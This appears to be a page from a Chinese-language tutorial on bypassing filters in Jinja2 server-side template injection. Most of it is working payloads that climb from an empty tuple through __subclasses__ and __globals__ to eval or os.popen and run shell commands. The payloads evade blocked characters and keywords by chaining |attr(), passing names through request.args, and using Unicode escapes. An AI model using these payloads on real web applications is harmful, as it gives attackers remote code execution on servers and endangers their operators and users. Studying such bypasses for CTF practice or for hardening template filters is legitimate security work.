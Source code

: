 #### 同时过滤了 __ 、点. 和 []

过滤了以下字符：

```
__    .    [    "
```

下面我们演示绕过姿势，先写出payload的原型：

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

由于中括号 `[` 被过滤了，我们可以用 `__getitem__()` 来绕过（尽量不要用pop()），类似如下：

```
{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}
```

由于还过滤了下划线 `__`，我们可以用request对象绕过，但是还过滤了中括号 `[]`，所以我们要同时绕过 `__` 和 `[`，就用到了我们的`|attr()`

所以最终的payload如下：

```
{{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()|attr(request.args.x4)(77)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
```

#### 用Unicode编码配合 `|attr()` 进行Bypass

过滤了以下字符：

```
'  request  {{  _  %20(空格)  [  ]  .  __globals__   __getitem__
```

我们用 `{%...%}`绕过对 `{{` 的过滤，并用unicode绕过对关键字的过滤。unicode绕过是一种网上没提出的方法。

假设我们要构造的payload原型为：

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}
```

先用 `|attr` 绕过 `.` 和 `[]`：

```
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}
```

我们可以将过滤掉的字符用unicode替换掉：

```
{{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(77)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("os")|attr("popen")("ls")|attr("read")()}}
```
